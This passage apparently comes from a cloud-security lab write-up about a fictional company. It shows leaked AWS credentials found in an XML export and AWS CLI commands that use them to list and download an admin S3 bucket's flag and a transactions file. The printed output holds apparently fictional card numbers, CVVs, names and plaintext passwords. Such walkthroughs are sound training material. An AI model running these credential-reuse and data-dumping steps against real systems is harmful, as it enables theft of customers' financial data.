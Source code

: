 - cat test-export.xml
```bash
!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
       # <AccountID>794929857501</AccountID>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
    </CredentialEntry>
```
- Login with admin
```bash
aws configure --profile adminpwned
aws s3 ls s3://dev.huge-logistics.com/admin/ --profile adminpwned
aws s3 ls s3://dev.huge-logistics.com/admin/ --profile adminpwned
aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt . --profile adminpwned
aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt - --profile adminpwned # view
aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv - --profile adminpwned > credit_card.txt
```
- Credit card information
```bash
aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv - --profile adminpwned
network,credit_card_number,cvv,expiry_date,card_holder_name,validation,username,password,ip_address
Visa,4055497191304,386,5/2021,Hunter Miller,,hunter_m,password123,34.56.78.90
Visa,4055491339081,492,8/2021,Jayden Adams,,jay_adams,jayden2023,157.89.34.56
Visa,4055491511051,244,10/2025,Jose Baker,,joseBaker24,jose@pass,212.45.67.89
Visa,4313504070320,984,3/2025,Gabriel Phillips,,gabrielP,welcome2025,58.67.34.23
Visa,4313504750869252,522,5/2024,Joseph Thomas,,joethomas,joe!pass,94.23.45.67
Visa,4313501801459893,585,5/2021,Chloe Nelson,,chloe_n,summer21,71.23.45.89
Visa,4313506927832,748,4/2025,Brianna Brown,,briBrown,ilovebri,102.178.23.45
Visa,4313508703687539,854,9/2021,Jose Perez,,jperez,jose*pass,145.89.23.67
Visa,4055490538100206,903,2/2022,Brooklyn Davis,,brookD,cookie22,89.45.23.56
Visa,4055496324021,989,10/2024,Elijah Davis,,elijahD2024,honey24,132.56.78.90
Visa,4313507611385,798,10/2025,Jose Davis,,josed_25,chocolate,193.45.67.80
Visa,4313505844566770,391,10/2023,Anna Miller,,annaM,anna2023,144.68.90.10
Visa,4313503045245021,319,9/2022,Anthony Collins,,tony_collins,tony!pass,154.23.67.89
Visa,4313503967294,839,7/2023,Alyssa Thompson,,alyssaT23,thompson23,212.67.89.90
Visa,4055496654879978,242,10/2023,Gabriel Garcia,,garcia_gabe,letmein,148.12.67.34
Visa,4313502893954,923,7/2025,Noah Allen,,noah_allen25,password2025,178.45.23.12
Visa,4055497065912,770,9/2021,Hunter Anderson,,hunterA2021,winter21,165.89.34.12
Visa,4055499869808,492,8/2025,David Jackson,,djackson,trustno1,194.56.78.90
Visa,4055493603013,993,3/2023,Katherine Anderson,,kat_anderson,love2023,204.89.23.45
Visa,4313507735369298,267,3/2021,Aiden Jones,,aidenJ,aiden@logistics,168.90.23.67
Visa,4055490830817,631,1/2023,Etha Nelson,,ethaN,etha@2023,132.78.90.10
Visa,4055492037879157,235,10/2024,Katherine Martin,,k_martin,superpass,178.89.23.45
Visa,4055490511326,802,3/2025,Elijah Scott,,elijahS2025,summer25,212.34.56.78
Visa,4313507927120,620,8/2022,Julia Brown,,juliaB22,julia@logis,189.23.45.67
Visa,4055498615148980,916,4/2024,Jose Jones,,j_jones24,jose2024,178.56.78.90
Visa,4313502314852,986,6/2024,Samantha Thompso,,samanthaT,samantha2024,167.89.90.12
Visa,4055491551140558,357,2/2023,Elizabeth Nelson,,lizNelson,princess23,204.56.78.12
Visa,4055496059868048,722,3/2025,Grace Brown,,graceB25,charlie1,156.78.90.12
Visa,4313508490261548,894,7/2025,Landon Adams,,landonA,landon@logis,146.78.90.23
```
